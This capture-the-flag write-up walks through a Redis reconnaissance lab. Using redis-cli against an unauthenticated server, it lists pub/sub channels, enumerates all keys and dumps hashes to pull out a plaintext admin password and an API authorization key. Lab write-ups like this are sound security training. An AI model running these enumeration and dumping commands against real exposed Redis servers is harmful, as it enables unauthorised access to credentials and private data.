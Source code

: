 # Network Recon III

## Challenge Description

A web application uses Redis server as the database server. The attacker has sneaked into the network on which the Redis server is present.

Please answer the following questions:

1. What message is being published on the active channel of the Redis server?
2. Find the key which contains the hash field 'authorization_key'.
3. Find the value of hash field 'admin_password' stored at the 'settings' key.

## Instructions

* Once you start the lab, you will have access to a root terminal of a Kali instance
* Your Kali has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
* The Target machine should be located at the IP address 192.X.Y.3.

---

## Solution

Firstly, we have to find the IP address of the target machine by following the instructions. In  this case, it was `192.97.36.3`.

Then, we have to connect to the Redis server. Being completely unfamiliar with Redis, I turned to my good old friend DuckDuckGo (substitute with any other search engine of your choice) to find some documentation.

I found that the default port was 6379, and that we can use `redis-cli` to interact with the server:

```text
root@attackdefense:~# redis-cli -h 192.97.36.3 -p 6379
192.97.36.3:6379> ping
PONG
```

The ping isn't necessary &ndash; I used it to see whether I'd connected properly.

### 1. Find message being published on the active channel

Looking through the documentation, I found [this page in the documentation](https://redis.io/topics/pubsub) that explains how Redis implements the "Publish/Subscribe messaging paradigm", as well as links to relevant command documentation.

To see the active channels, we can use the `PUBSUB` command:

```text
192.97.36.3:6379> PUBSUB CHANNELS
1) "notifications"
```

We can then subscribe to the "notifications" channel to read the messages being published.

```text
192.97.36.3:6379> SUBSCRIBE notifications
Reading messages... (press Ctrl-C to quit)
1) "subscribe"
2) "notifications"
3) (integer) 1
1) "message"
2) "notifications"
3) "Password for user 'admin' was updated."
^C
```

#### Flag 1

```text
Password for user 'admin' was updated.
```

### 2. Find key containing hash field `authorization_key`

After doing `Ctrl-C` to get out of the message display earlier, we have to reconnect to the server.

Then, we can list all keys:

```text
192.97.36.3:6379> keys *
 1) "users"
 2) "greetings"
 3) "is-offline"
 4) "home_page"
 5) "config"
 6) "statistics"
 7) "active_api_keys"
 8) "blacklisted-ip"
 9) "settings"
10) "data
```

Some keys can be hash keys, which contain multiple fields. For example, in this case, `settings` is a hash key:

```text
192.97.36.3:6379> type settings
hash
```

We can list the contents of this hash key:

```text
192.97.36.3:6379> hgetall settings
 1) "username"
 2) "admin"
 3) "contact-no"
 4) "4123454165"
 5) "role"
 6) "sys_admin"
 7) "admin_password"
 8) "superSecretPass@123"
 9) "last_login"
10) "12/06/2019"
11) "email"
12) "admin@recon-badge.local"
```

This particular key does not contain the field we are looking for. Let's look for another hash key:

```text
192.97.36.3:6379> type users
list
192.97.36.3:6379> type greetings
string
192.97.36.3:6379> type is-offline
string
192.97.36.3:6379> type home_page
string
192.97.36.3:6379> type config
hash
```

Now that we know that the key `config` is of type `hash`, let's dump the contents of `config`:

```text
192.97.36.3:6379> hgetall config
 1) "authorization_key"
 2) "d9bd6d9150d3f7004830819da569aa9a"
 3) "endpoint"
 4) "api.recon-badge.local/private"
 5) "parameter"
 6) "data"
 7) "method"
 8) "POST"
 9) "parameter_type"
10) "json"
```

We can see that it lists the field name, then the value, like so:

```text
1) "FIELD NAME 1"
2) "VALUE 1"
3) "FIELD NAME 2"
4) "VALUE 2"
...and so on.
```

Thus, we can get the value of `authorization_key` from the output above.

#### Flag 2

```text
d9bd6d9150d3f7004830819da569aa9a
```

### 3. Find value of hash field `admin_password` stored at `settings` key

Earlier, we got the contents of the `settings` key:

```text
192.97.36.3:6379> hgetall settings
 1) "username"
 2) "admin"
 3) "contact-no"
 4) "4123454165"
 5) "role"
 6) "sys_admin"
 7) "admin_password"
 8) "superSecretPass@123"
 9) "last_login"
10) "12/06/2019"
11) "email"
12) "admin@recon-badge.local"
```

We can see that the value of the `admin_password` field is `superSecretPass@123` (Tsk, plaintext password storage again...)

#### Flag 3

```text
superSecretPass@123
```
